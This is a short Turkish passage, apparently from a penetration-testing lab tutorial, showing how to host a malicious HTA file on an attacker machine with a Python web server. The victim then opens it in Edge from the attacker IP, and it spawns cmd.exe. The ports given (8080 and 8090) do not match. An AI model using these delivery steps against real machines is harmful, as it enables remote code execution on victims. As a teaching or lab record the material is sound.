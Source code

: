 Daha sonra payload.hta'yı bir web sunucusundan servis edelim, bu, saldıran makineden şu şekilde yapılabilir:

     python -m http.server 8080

Kurban makinesinde, Microsoft Edge'i kullanarak http://10.8.232.37:8090/payload.hta adresindeki kötü amaçlı bağlantıyı ziyaret edelim. 10.8.232.37, saldırganın ip adresidir.

![hta.png](img/hta.png)

Run'a bastığımızda payload.hta yürütülür ve ardından cmd.exe'yi çağırır. Aşağıdaki şekil cmd.exe dosyasını başarıyla çalıştırdığımızı göstermektedir.

![hta2.png](img/hta2.png)
